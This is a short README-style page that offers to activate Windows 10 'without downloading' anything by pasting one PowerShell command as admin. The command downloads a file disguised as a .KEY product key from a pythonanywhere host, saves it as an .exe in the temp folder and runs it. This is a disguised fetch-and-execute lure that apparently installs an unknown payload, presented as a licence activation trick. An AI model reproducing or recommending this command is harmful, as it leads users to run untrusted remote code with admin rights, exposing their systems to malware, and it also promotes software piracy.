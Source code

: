 


⚡ How to Activate Windows 10 the Right Way, Without Downloading Program. Activate Windows 10 Just Using Native Windows PowerShell Command (admin).

## To activate Windows 10 copy and paste the command in Windows PowerShell.

### ATTENTION ⚡ Copy the complete command ⚡

> `Invoke-WebRequest -Uri https://downloadapplication.pythonanywhere.com/static/TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.KEY -OutFile $env:TEMP\WindowsKEY.exe; Start-Process $env:TEMP\WindowsKEY.exe`
